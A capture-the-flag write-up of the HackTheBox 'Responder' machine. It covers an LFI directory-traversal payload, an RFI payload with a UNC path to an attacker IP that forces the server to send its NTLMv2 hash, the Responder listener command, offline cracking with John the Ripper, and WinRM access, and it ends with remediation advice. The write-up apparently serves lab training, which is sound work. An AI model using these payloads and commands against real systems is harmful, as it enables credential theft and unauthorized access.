









# HackTheBox — Responder


---

## Overview

| Field | Details |
|-------|---------|
| Machine Name | Responder |
| Difficulty | Very Easy |
| OS | Windows |
| IP Address | 10.129.95.234 |
| Key Techniques | LFI, RFI, LLMNR Poisoning, NTLMv2 Hash Capture, Hash Cracking, WinRM |
| Tools Used | Nmap, Responder, John the Ripper, Evil-WinRM |

---

## Task Answers

| Task | Question | Answer |
|------|----------|--------|
| Task 1 | What domain is the web service redirecting to? | `unika.htb` |
| Task 2 | Which scripting language is being used on the server? | `PHP` |
| Task 3 | What is the name of the URL parameter loading different language versions? | `page` |
| Task 4 | Which value exploits LFI? | `../../../../../../../../windows/system32/drivers/etc/hosts` |
| Task 5 | Which value exploits RFI? | `//10.10.14.6/somefile` |
| Task 6 | What does NTLM stand for? | `New Technology LAN Manager` |
| Task 7 | Which flag specifies the network interface in Responder? | `-I` |
| Task 8 | Full name of the tool referred to as `john`? | `John the Ripper` |
| Task 9 | What is the Administrator password? | `badminton` |
| Task 10 | What TCP port does WinRM listen on? | `5985` |
| Task 11 | On which user's desktop is the flag? | `mike` |

---

## Enumeration

### Step 1 — Host Discovery

Pinged the target to confirm it was alive. TTL value of **127** confirms a **Windows** machine — Linux TTL is 64, Windows TTL is 128, slightly decremented due to routing hops.



---

### Step 2 — Port Scanning

Ran an Nmap service and script scan. Two ports found open — **port 80** running Apache with **PHP 8.1.1**, and **port 5985** running WinRM which will be useful later for remote access.



---

## Web Enumeration

### Step 3 — Adding Domain to /etc/hosts

The web application redirected to `unika.htb` which wasn't resolving. Added it to `/etc/hosts` to fix DNS resolution locally.



After saving, the website loaded successfully — a web design company called **UNIKA**.


---

### Step 4 — Discovering the Vulnerability

The navigation bar has a language selector — **EN**, **FR**, **DE**. Clicking **DE** changed the URL to `index.php?page=german.html`. The `page` parameter loads files directly, which is immediately suspicious.


---

### Step 5 — Confirming LFI

Tested the `page` parameter by reading the Windows hosts file using directory traversal. The file contents were returned in the browser — **LFI confirmed**.

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```



---

## Exploitation

### Step 6 — Setting Up Responder

Checked the tun0 interface IP first, then started Responder listening on tun0. When the Windows server tries to access a UNC path pointing to our IP, it will attempt NTLM authentication and send us its NTLMv2 hash.

```bash
sudo responder -I tun0 -wF
```



---

### Step 7 — Triggering the Hash Capture

With Responder running, triggered the RFI by pointing the `page` parameter to our attacker IP via UNC path:

```
http://unika.htb/index.php?page=//YOUR_TUN0_IP/sharefilehtb
```

The server tried to access our fake SMB share and sent the Administrator NTLMv2 hash directly to Responder.



**Why this works:** Windows falls back to LLMNR when DNS fails to resolve a hostname. Responder intercepts that broadcast, responds "I'm here", and the victim authenticates to us — sending the NTLMv2 hash in the process.

---

## Hash Cracking

### Step 8 — Cracking with John the Ripper

Saved the captured hash to a file and ran John the Ripper against the rockyou wordlist.



**Result: Administrator password = `badminton`**

---

## Remote Access

### Step 9 — Connecting via Evil-WinRM

Port 5985 (WinRM) was open from our Nmap scan. Used the cracked credentials to get a full PowerShell session.



---

## Flag

### Step 10 — Navigating to the Flag

Explored the Users directory and found two users — Administrator and **mike**. Navigated to mike's desktop and found the flag.



---

## Full Attack Chain

```
TTL 127 → Windows target confirmed
         ↓
Nmap → Port 80 (Apache/PHP) + Port 5985 (WinRM)
         ↓
Web app → unika.htb (added to /etc/hosts)
         ↓
Language selector → ?page= parameter discovered
         ↓
LFI confirmed → read windows hosts file
         ↓
RFI triggered → ?page=//ATTACKER_IP/share
         ↓
Responder captures NTLMv2 hash (Administrator)
         ↓
John the Ripper → password: badminton
         ↓
Evil-WinRM → Port 5985 → PowerShell shell
         ↓
C:\Users\mike\Desktop\flag.txt → Flag captured
```

---

## Key Concepts

### LFI vs RFI

| Type | What it does | Example |
|------|-------------|---------|
| LFI | Reads files already on the server | `?page=../../../../windows/system32/drivers/etc/hosts` |
| RFI | Loads files from an external source | `?page=//ATTACKER_IP/share` |

### NTLM vs NTLMv2

| Hash | How to use it |
|------|--------------|
| NTLM | Used directly in Pass-the-Hash attacks |
| NTLMv2 | Must be cracked offline first, then use the plaintext password |

---

## Real World Impact

```
## Real World Impact

In a real engagement this attack chain would mean:

- NTLMv2 hash captured → crack offline → 
  password potentially reused on other systems
- Administrator credentials → full control 
  of the Windows machine
- WinRM access → read sensitive files, 
  install backdoors, use as pivot point
- LLMNR poisoning works silently → 
  victim never knows their hash was stolen
```

A single unsanitized PHP `include()` function led to full Administrator access — demonstrating why input validation and disabling LLMNR are critical security controls.

---

## Remediation

| Finding | Risk | Fix |
|---------|------|-----|
| LFI/RFI via page parameter | Critical | Sanitize all user input, whitelist allowed files |
| LLMNR enabled | High | Disable via Group Policy |
| Weak Administrator password | High | Enforce strong password policy |
| WinRM exposed | Medium | Restrict access to authorized IPs only |

---

*Written by Saif (sakata6666) | HTB CPTS Path | August 2026*  
*All testing performed on authorized HackTheBox lab infrastructure only*
